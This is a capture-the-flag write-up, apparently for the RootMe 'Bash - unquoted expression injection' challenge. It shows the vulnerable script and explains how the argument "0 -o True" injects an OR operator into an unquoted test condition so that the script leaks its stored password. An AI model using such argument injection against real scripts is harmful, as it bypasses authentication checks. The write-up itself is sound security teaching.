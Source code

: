 ```yaml
---
layout: default
title: RootMe
permalink: /app-script/bash-unquoted-expression-injection
---
```


# Bash - unquoted expression injection

## Statement
Bypass this script’s security to recover the validation password.

## Source code
```bash
#!/bin/bash
    
#PATH=$(/usr/bin/getconf PATH || /bin/kill $$)
PATH="/bin:/usr/bin"
    
PASS=$(cat .passwd)
    
if test -z "${1}"; then
    echo "USAGE : $0 [password]"
    exit 1
fi
    
if test $PASS -eq ${1} 2>/dev/null; then
    echo "Well done you can validate the challenge with : $PASS"
else
    echo "Try again ,-)"
fi
    
exit 0
```

## Analyze
Let's analyze this code
```bash
#!/bin/bash
    
#PATH=$(/usr/bin/getconf PATH || /bin/kill $$)
PATH="/bin:/usr/bin"
    
PASS=$(cat .passwd) # Target

if test -z "${1}"; then # -z is to check if first argument is empty
    echo "USAGE : $0 [password]"
    exit 1
fi
    
if test $PASS -eq ${1} 2>/dev/null; then # If first arg is equal to flag
    echo "Well done you can validate the challenge with : $PASS"
else
    echo "Try again ,-)"
fi
    
exit 0
```

So magic will happen here
```bash
if test $PASS -eq ${1} 2>/dev/null; then
```

## Exploitation
```bash
app-script-ch16@challenge02:~$ ./wrapper "0 -o True"
Well done you can validate the challenge with : *************
```

## How does it work ?
Like classic injections, our goal is to force the condition to validate.

With this argument: `"0 -o True"` script condition became
```bash
#!/bin/bash
    
#PATH=$(/usr/bin/getconf PATH || /bin/kill $$)
PATH="/bin:/usr/bin"
    
PASS=$(cat .passwd)
    
if test -z "${1}"; then
    echo "USAGE : $0 [password]"
    exit 1
fi
    
if test $PASS -eq 0 -o True 2>/dev/null; then # Condition change here
    echo "Well done you can validate the challenge with : $PASS"
else
    echo "Try again ,-)"
fi
    
exit 0
```
`"0 -o True"`:
- `0` = Allows `-eq` to achieve its goal
- `-o` = Is OR in bash conditions
- `True` = Allows `-o` to make the condition as True

In pseudo-code, this changes the condition from:
```py
if $PASS == 0 :
```
to:
```py
if $PASS == 0 or True :
```